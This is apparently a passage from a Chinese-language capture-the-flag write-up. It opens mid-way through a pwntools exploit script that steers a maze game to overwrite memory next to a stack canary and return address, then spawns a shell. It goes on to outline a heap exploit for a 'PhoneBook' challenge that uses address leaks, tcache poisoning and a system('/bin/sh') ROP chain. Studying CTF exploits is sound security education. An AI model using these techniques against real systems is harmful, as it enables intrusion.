 ```python
    io.sendline()
    io.sendline()
    #modify maxTry to bigger
    io.send(b'aawwwwwasssss')
    io.send(b'ssddd')
    #then pos is in (5, 3)

    '''
    |     |    |    | pos|
    ----------------------
    |     canary[0:4]    |
    ----------------------
    |     canary[4:8]    |
    ----------------------
    |      rbp[0:4]      |
    ----------------------
    |      rbp[4:8]      |
    ----------------------
    |      ret[0:4]      |
    ----------------------
    |      ret[4:8]      |
    ----------------------
    | D8  | 9C | D8 | 9C |
    '''
    io.send(b'sssssssa')
    io.send(b'wawasdsawdwasdsawdwasdds')
    io.send(b'dwwwwwww')

    io.send(b'ad'*(577//2)+b'a')
    io.recvuntil(b'Move remaining : 0')
    io.recvuntil(b'--------------------------\n')
    io.recvuntil(b'--------------------------\n')
    #io.interactive()

while 1:
    try:
        pwn()
        io.recv(timeout=0.1)
        io.sendline(b'ls')
        io.interactive()
        break
    except:
        io.close()
```

## PhoneBook

一道常规菜单堆，为了显得不那么烂大街，整成固定大小和单链表的形式，可以越界写入到指针，灵活性相对较大。

预期解法为先泄露堆地址，libc地址，然后通过`environ`泄露栈地址，`tcache poison`打栈即可，`name`和`phone_number`正好是0x18字节，正好可以`p64(pop_rdi)+p64(bin_sh)+p64(system)`，因为栈对齐的问题，`system`的地址需要做调整。（打IO也可，不过会更麻烦
